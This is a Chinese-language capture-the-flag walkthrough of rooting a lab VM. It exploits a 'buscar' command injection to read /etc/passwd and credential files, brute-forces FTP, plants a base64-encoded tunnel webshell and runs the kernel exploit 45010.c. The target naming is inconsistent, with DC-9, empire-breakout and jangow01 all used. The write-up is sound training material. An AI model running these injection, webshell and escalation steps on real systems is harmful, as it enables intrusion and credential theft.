# 目标
得到靶机的root权限。

---

# 信息收集
## 1.主机发现

- `192.168.64.2`是kali
- `192.168.64.10`就是靶机

## 2.端口扫描
**使用SYN TCP扫描：**
```shell
nmap -sS 192.168.64.10 --max-rate -p-
```


**使用UDP扫描：**
```shell
nmap -sU 192.168.64.10 --max-rate --top-ports 100
```


**使用nmap内置的漏洞脚本扫描：**
```shell
nmap -sV -O --script=vuln 192.168.64.10 --max-rate 1000 -p21,80 -oN nmap-results.nmap
```
保存到*nmap-reslts.nmap*文件里面，如果后面没什么路了，那就差尝试通过这里找到的可能漏洞来攻击。

## 3.浏览器查找信息（去80端口找信息）
访问：`http://192.168.64.10:80`，然后点击页面出现的`site`，就会出现下面的画面：

随意翻一翻这个网站，应该就是一个普通的模版网站。

使用whatweb查一下：

没什么信息。


点击右上角的**Buscar**，网站链接变成：`http://192.168.64.10/site/busque.php?buscar=`
似乎是有参数可以使用。尝试一下输入一些数字，没有反应，那可能就是没有sql注入；再尝试输入一些命令，

发现这里有命令注入执行的漏洞。尝试操作更多：通过浏览器得到
```http
GET /site/busque.php?buscar=ls HTTP/1.1
Host: 192.168.64.10
[这里的空行是必要的]
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cache-Control: no-cache
Connection: keep-alive
Pragma: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
[这里的空行是必要的]
```
将上面的内容保存为*buscar_request.http*文件。然后将*buscar_request.http*文件格式改为dos格式（http协议要求）：
```shell
unix2dos buscar_request.http
```

使用如下命令得到Response的回应信息。
```shell
cat buscar_request.http | ncat -C 192.168.64.10 80 -w 3 -4
```

通过修改上面*buscar_request.http*文件里面的`buscar`参数，可以不断的得到系统的信息。🌝

访问一下`http://192.168.64.10/site/robots.txt`和`http://192.168.64.10/robots.txt`，都没这个文件，没有找到有用信息。

查看一下网页源代码，看看有什么信息：没找到有什么信息。🌚

扫描一下网站下面的目录：
```shell
ffuf -u http://192.168.64.10:80/site/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 20 -rate 20 -p 0.1-0.5 -ac
```


```shell
ffuf -u http://192.168.64.10:80/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 20 -rate 20 -p 0.1-0.5 -ac
```


从上面扫描的目录可以发现有一个assets目录，里面有图片，没有可能有图片隐写？尝试一下：
```shell
stegseek <图片名> /usr/share/wordlists/rockyou.txt
```
没有发现隐写。🌚

上面还发现了一个*wordpress*目录，去访问一下：`http://192.168.64.10:80/site/wordpress`


重定向了，好像不是wp.🌚

## 4.FTP查找信息（去21端口查找信息）
可以在上面保存下来的*nmap-reslts.nmap*里面找到信息：
```
21/tcp open  ftp     vsftpd 3.0.3
| vulners: 
|   vsftpd 3.0.3: 
|     	CVE-2021-30047	7.5	https://vulners.com/cve/CVE-2021-30047
|_    	CVE-2021-3618	7.4	https://vulners.com/cve/CVE-2021-3618
```
有2项漏洞，但是评分不是很高。
去看看这2个是什么：
- CVE-2021-30047: 这个漏洞需要ftp版本是Xlight FTP Server 3.9.2及以下，好像没啥用
- CVE-2021-3618: 这个漏洞是针对冒用数字证书的，好像没啥用

尝试一下可能有匿名用户登陆：
```shell
ftp 192.168.64.10
```
没有匿名登陆。🌚

对ftp登陆进行字典攻击：
- 制作字典：
```shell
cewl http://192.168.64.10:80 -w site_wordlist.txt -d 2 -m 4 --with-numbers
```
然后对字典进行一定的人为过滤，去掉那些明显不可能的词汇，然后使用metasploit进行暴力登陆：
```shell
msf > use auxiliary/scanner/ftp/ftp_login
msf(*) > set user_file site_wordlist.txt
msf(*) > set pass_file site_wordlist.txt
msf(*) > set rhosts 192.168.64.10
msf(*) > run
```
一个都没有破解出来。🌚

## 5.


---

# 根据上面收集到的信息，攻入系统
这样应该已经算攻入系统了，但是为了后续的方便，还是得到一个稳定的界面比较好。

## 1.获取系统信息

上面最主要的信息是`buscar`参数的命令执行漏洞。

输入：`cat /etc/passwd` ➡️ `cat%20/etc/passwd`
显示：
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
jangow01:x:1000:1000:desafio02,,,:/home/jangow01:/bin/bash
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:111:118:ftp daemon,,,:/srv/ftp:/bin/false
mysql:x:112:119:MySQL Server,,,:/nonexistent:/bin/false
```

输入：`ls -al` ➡️ `ls%20-al`
显示：
```
total 40
drwxr-xr-x 6 www-data www-data  4096 Jun 10  2021 .
drwxr-xr-x 3 root     root      4096 Oct 31  2021 ..
drwxr-xr-x 3 www-data www-data  4096 Jun  3  2021 assets
-rw-r--r-- 1 www-data www-data    35 Jun 10  2021 busque.php
drwxr-xr-x 2 www-data www-data  4096 Jun  3  2021 css
-rw-r--r-- 1 www-data www-data 10190 Jun 10  2021 index.html
drwxr-xr-x 2 www-data www-data  4096 Jun  3  2021 js
drwxr-xr-x 2 www-data www-data  4096 Jun 10  2021 wordpress
```

输入：`cd wordpress;ls -al` ➡️ `cd%20wordpress;ls%20-al`
显示：
```
total 24
drwxr-xr-x 2 www-data www-data  4096 Jun 10  2021 .
drwxr-xr-x 6 www-data www-data  4096 Jun 10  2021 ..
-rw-r--r-- 1 www-data www-data   347 Jun 10  2021 config.php
-rw-r--r-- 1 www-data www-data 10190 Jun 10  2021 index.html
```

输入：`cd wordpress;cat config.php` ➡️ `cd%20wordpress;cat%20config.php`
显示：
```
<?php
$servername = "localhost";
$database = "desafio02";
$username = "desafio02";
$password = "abygurl69";
// Create connection
$conn = mysqli_connect($servername, $username, $password, $database);
// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
mysqli_close($conn);
?>
```

**在系统中搜索关键文件**
主要是：
- key
- pass
- bak
- back

输入：`find / \( -path /sys -o -path /proc -o -path /lib -o -path /usr \) -prune -o -iname "*key*" 2>/dev/null` ➡️ `find%20/%20\(%20-path%20/sys%20-o%20-path%20/proc%20-o%20-path%20/lib%20-o%20-path%20/usr%20\)%20-prune%20-o%20-iname%20"*key*"%202>/dev/null`
显示：
```
/sys
/lib
/dev/input/by-id/usb-QEMU_QEMU_USB_Keyboard_68284-0000:00:1d.7-3-event-kbd
/boot/grub/i386-pc/keystatus.mod
/boot/grub/i386-pc/sendkey.mod
/boot/grub/i386-pc/at_keyboard.mod
/boot/grub/i386-pc/usb_keyboard.mod
/boot/grub/i386-pc/keylayouts.mod
/usr
/var/lib/dpkg/info/ubuntu-cloudimage-keyring.md5sums
/var/lib/dpkg/info/keyboard-configuration.postinst
/var/lib/dpkg/info/keyboard-configuration.postrm
/var/lib/dpkg/info/libkeyutils1:amd64.triggers
/var/lib/dpkg/info/libkeyutils1:amd64.shlibs
/var/lib/dpkg/info/ubuntu-keyring.list
/var/lib/dpkg/info/libkeyutils1:amd64.symbols
/var/lib/dpkg/info/keyboard-configuration.config
/var/lib/dpkg/info/ubuntu-keyring.md5sums
/var/lib/dpkg/info/keyboard-configuration.templates
/var/lib/dpkg/info/keyboard-configuration.conffiles
/var/lib/dpkg/info/keyboard-configuration.md5sums
/var/lib/dpkg/info/libkeyutils1:amd64.md5sums
/var/lib/dpkg/info/ubuntu-keyring.postinst
/var/lib/dpkg/info/keyboard-configuration.list
/var/lib/dpkg/info/ubuntu-cloudimage-keyring.list
/var/lib/dpkg/info/keyboard-configuration.preinst
/var/lib/dpkg/info/libkeyutils1:amd64.list
/var/lib/mysql-keyring
/var/lib/apt/keyrings
/var/lib/apt/keyrings/ubuntu-archive-keyring.gpg
/var/lib/snapd/assertions/private-keys-v0
/var/lib/lxcfs/cgroup/memory/system.slice/keyboard-setup.service
/var/lib/lxcfs/cgroup/devices/system.slice/keyboard-setup.service
/var/lib/lxcfs/cgroup/pids/system.slice/keyboard-setup.service
/var/lib/lxcfs/cgroup/cpu,cpuacct/system.slice/keyboard-setup.service
/var/lib/lxcfs/cgroup/blkio/system.slice/keyboard-setup.service
/var/lib/lxcfs/cgroup/name=systemd/system.slice/keyboard-setup.service
/proc
/etc/ssh/ssh_host_dsa_key
/etc/ssh/ssh_host_ecdsa_key.pub
/etc/ssh/ssh_host_ed25519_key.pub
/etc/ssh/ssh_host_ed25519_key
/etc/ssh/ssh_host_rsa_key
/etc/ssh/ssh_host_dsa_key.pub
/etc/ssh/ssh_host_ecdsa_key
/etc/ssh/ssh_host_rsa_key.pub
/etc/apparmor.d/abstractions/ssl_keys
/etc/ssl/certs/OISTE_WISeKey_Global_Root_GB_CA.pem
/etc/ssl/certs/OISTE_WISeKey_Global_Root_GA_CA.pem
/etc/init.d/keyboard-setup
/etc/rcS.d/S04keyboard-setup
/etc/default/keyboard
/bin/loadkeys
/bin/dumpkeys
/bin/lesskey
/run/udev/links/\x2finput\x2fby-id\x2fusb-QEMU_QEMU_USB_Keyboard_68284-0000:00:1d.7-3-event-kbd
```

输入：`find / \( -path /sys -o -path /proc -o -path /lib -o -path /usr \) -prune -o -iname "*pass*" 2>/dev/null` ➡️ `find%20/%20\(%20-path%20/sys%20-o%20-path%20/proc%20-o%20-path%20/lib%20-o%20-path%20/usr%20\)%20-prune%20-o%20-iname%20"*pass*"%202>/dev/null`
显示：
```
/sys
/lib
/boot/grub/i386-pc/legacy_password_test.mod
/boot/grub/i386-pc/password.mod
/boot/grub/i386-pc/password_pbkdf2.mod
/usr
/var/lib/dpkg/info/passwd.list
/var/lib/dpkg/info/passwd.preinst
/var/lib/dpkg/info/base-passwd.preinst
/var/lib/dpkg/info/passwd.md5sums
/var/lib/dpkg/info/base-passwd.postinst
/var/lib/dpkg/info/passwd.postrm
/var/lib/dpkg/info/base-passwd.list
/var/lib/dpkg/info/passwd.postinst
/var/lib/dpkg/info/base-passwd.md5sums
/var/lib/dpkg/info/passwd.conffiles
/var/lib/dpkg/info/base-passwd.templates
/var/lib/dpkg/info/base-passwd.postrm
/var/lib/pam/password
/var/cache/debconf/passwords.dat
/var/backups/passwd.bak
/proc
/etc/passwd-
/etc/apache2/mods-available/proxy_fdpass.load
/etc/passwd
/etc/apparmor.d/abstractions/smbpass
/etc/init/passwd.conf
/etc/ssl/certs/Buypass_Class_3_Root_CA.pem
/etc/ssl/certs/Buypass_Class_2_Root_CA.pem
/etc/ssl/certs/Buypass_Class_2_CA_1.pem
/etc/cron.daily/passwd
/etc/pam.d/passwd
/etc/pam.d/common-password
/etc/pam.d/chpasswd
/etc/security/opasswd
/bin/systemd-ask-password
/bin/systemd-tty-ask-password-agent
/run/systemd/ask-password
```

输入：`find / \( -path /sys -o -path /proc -o -path /lib -o -path /usr \) -prune -o -iname "*bak*" 2>/dev/null` ➡️ `find%20/%20\(%20-path%20/sys%20-o%20-path%20/proc%20-o%20-path%20/lib%20-o%20-path%20/usr%20\)%20-prune%20-o%20-iname%20"*bak*"%202>/dev/null`
显示：
```
/sys
/lib
/usr
/var/backups/shadow.bak
/var/backups/gshadow.bak
/var/backups/passwd.bak
/var/backups/group.bak
/proc
```

输入：`find / \( -path /sys -o -path /proc -o -path /lib -o -path /usr \) -prune -o -iname "*back*" 2>/dev/null` ➡️ `find%20/%20\(%20-path%20/sys%20-o%20-path%20/proc%20-o%20-path%20/lib%20-o%20-path%20/usr%20\)%20-prune%20-o%20-iname%20"*back*"%202>/dev/null`
显示：
```
/sbin/vgcfgbackup
/sys
/lib
/script/backup
/boot/grub/i386-pc/loopback.mod
/boot/grub/i386-pc/gfxterm_background.mod
/boot/grub/i386-pc/backtrace.mod
/usr
/var/www/html/.backup
/var/lib/dpkg/info/libpolkit-backend-1-0:amd64.symbols
/var/lib/dpkg/info/libpolkit-backend-1-0:amd64.triggers
/var/lib/dpkg/info/libpolkit-backend-1-0:amd64.shlibs
/var/lib/dpkg/info/libpolkit-backend-1-0:amd64.list
/var/lib/dpkg/info/libpolkit-backend-1-0:amd64.md5sums
/var/lib/apt/lists/br.archive.ubuntu.com_ubuntu_dists_xenial-backports_universe_binary-i386_Packages
/var/lib/apt/lists/br.archive.ubuntu.com_ubuntu_dists_xenial-backports_InRelease
/var/lib/apt/lists/br.archive.ubuntu.com_ubuntu_dists_xenial-backports_universe_binary-amd64_Packages
/var/lib/apt/lists/br.archive.ubuntu.com_ubuntu_dists_xenial-backports_main_i18n_Translation-en
/var/lib/apt/lists/br.archive.ubuntu.com_ubuntu_dists_xenial-backports_main_binary-i386_Packages
/var/lib/apt/lists/br.archive.ubuntu.com_ubuntu_dists_xenial-backports_main_binary-amd64_Packages
/var/lib/apt/lists/br.archive.ubuntu.com_ubuntu_dists_xenial-backports_universe_i18n_Translation-en
/var/backups
/proc
/etc/polkit-1/nullbackend.conf.d
/etc/polkit-1/nullbackend.conf.d/50-nullbackend.conf
/etc/mysql/my.cnf.fallback
/etc/byobu/backend
```

从上面的搜索结果来看，值得一看：`/var/www/html/.backup`

**查看`/var/www/html/.backup`**
输入：`ls -l /var/www/html/.backup` ➡️ `ls%20-l%20/var/www/html/.backup`
显示：
```
-rw-r--r-- 1 www-data www-data 336 Oct 31  2021 /var/www/html/.backup
```

输入：`cat /var/www/html/.backup` ➡️ `cat%20/var/www/html/.backup`
显示：
```
$servername = "localhost";
$database = "jangow01";
$username = "jangow01";
$password = "abygurl69";
// Create connection
$conn = mysqli_connect($servername, $username, $password, $database);
// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
mysqli_close($conn);
```

## 2.执行系统操作

通过www-date(也就是当前用户)来建立反弹连接是行不通的，我试过了。

上面发现了一个数据库，可不可以通过修改这个config.php文件来帮我查阅这个数据库。访问一下连接：`http://192.168.64.10:80/site/wordpress/config.php`，显示如下：

登陆不了。

但是我拿到了一个用户名和一个密码，那能不能去登陆一下上面的ftp呢？顺便加入/etc/passwd里面用户名，使用msfconsole来尝试破解ftp登陆。

创建users.txt:
```shell
awk -F ':' '{print $1}' > users.txt
```
使用上面msfconsole类似的手法进行破解，成功了：


现在是ftp可以登陆了，上传文件了，账号密码也有了（不一定是linux系统用户jangow01的密码），得找到一个稳定的登陆点：

### 2.1 使用虚拟机的界面直接登陆


不赘述了。

### 2.2 使用http挖洞（建立隧道），然后登陆本地的ssh

下载github上面的项目：
```
git clone https://github.com/L-codes/Neo-reGeorg.git
```
根据README的提示生成文件: *tunnel.php* (我设置的密码是123456)

使用如下命令将其写成一行：
```shell
php -w tunnel.php | tr -d '\n' > single_line.php
```
将*tunnel.php*里面的内容去掉前面的`<?php`, 然后使用msfvenom进行编码，方便url传输：
```shell
msfvenom -p - -a php --platform php -e php/base64 -f raw -o single_line_base64.php < single_line.php
```

然后使用上面的`buscar`：
输入：`touch tunnel.php && echo 'success'` ➡️ `touch%20tunnel.php%20%26%26%20echo%20'success'`
显示：
```
success
```

输入：`echo '<?php [single_line_base64.php文件内容] ?>' > tunnel.php && echo 'success'` ➡️ `echo%20'<?php%20[single_line_base64.php文件内容]%20?>'%20>%20tunnel.php%20%26%26%20echo%20'success'`
显示：
```
success
```

访问一下，确保tunnel.php可以访问：
```shell
curl -I http://192.168.64.10:80/site/tunnel.php
```
返回的是`200`, 说明可以访问。

创建`proxychain`的代理配置文件`proxychain.conf`：
```config
strict_chain
proxy_dns

[ProxyList]
socks5 127.0.0.1 1080
```

运行Neo-reGeorg，建立http隧道：
```shell
python3 neoreg.py -k 123456 -u http://192.168.64.10:80/site/tunnel.php
```

执行系统代理：
```shell
proxychains4 -f proxychain.conf ssh jangow01@127.0.0.1
```
然后输入密码，就直接登陆成功了。


---

# 系统提权



搜索内核提权的脚本：

我这里选择了一个`45010.c`的本地权限提升的脚本。
将这个45010.c文件复制到的当前目录下：
```shell
searchsploit -m 45010
```

然后使用ftp上传到`jangow01`用户家目录下，使用gcc编译，然后运行，提升权限：


成功提权。

还有一个内核漏洞提权方案：`Dirty Cow`

---
---

# 硬件与软件平台
## 硬件
- Apple Macbook pro M1-Pro 32G 512G
- `macOS 14.8.5`
- `UTM虚拟机`

## 软件
kali
- IP: `192.168.64.2`
- OS Realease: `debian 2025.4`
- `Arm64`

靶机DC-9: 
- `https://www.vulnhub.com/entry/empire-breakout,751/`

---

> 水平有限，有不足、错误之处欢迎指出。🧐